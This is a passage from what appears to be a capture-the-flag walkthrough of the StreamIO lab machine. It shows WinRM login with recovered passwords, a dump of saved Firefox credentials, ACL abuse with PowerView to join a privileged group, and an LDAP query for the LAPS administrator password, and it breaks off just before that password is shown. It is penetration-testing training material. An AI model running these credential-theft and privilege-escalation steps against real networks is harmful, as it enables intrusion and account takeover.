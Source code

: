 ```bash
crackmapexec winrm 10.10.11.158 -u 'nikk37' -p 'get_dem_girls2@yahoo.com'
```

✅ Access confirmed. Logged in:

```bash
evil-winrm -i 10.10.11.158 -u 'nikk37' -p 'get_dem_girls2@yahoo.com'
```

🏁 User flag retrieved.

---

## 8. Credential Dump from Firefox

Identified a Firefox profile in:

```bash
C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release\
```

Downloaded `key4.db` and `logins.json`, and decrypted using `firepwd`:

```bash
python3 firepwd.py
```

✅ Recovered multiple credentials, including:

```
JDgodd : JDg0dd1s@d0p3cr3@t0r
```

---

## 9. BloodHound & LAPS Abuse

Used `SharpHound` to generate data for BloodHound.

Found path: `JDgodd → Core Staff → LAPS → Administrator`.

Used `PowerView.ps1` to escalate JDgodd to Core Staff:

```powershell
Import-Module .\PowerView.ps1
$pass = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('streamio.htb\JDgodd', $pass)
Add-DomainObjectAcl -Credential $cred -TargetIdentity "Core Staff" -PrincipalIdentity 'JDgodd'
Add-DomainGroupMember -Identity 'Core Staff' -Members 'JDgodd' -Credential $cred
```

Used LDAP to retrieve the LAPS password:

```bash
ldapsearch -x -H ldap://10.10.11.158 -D JDgodd@streamio.htb -w 'JDg0dd1s@d0p3cr3@t0r' -b "dc=streamio,dc=htb" "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
```

✅ Retrieved password:
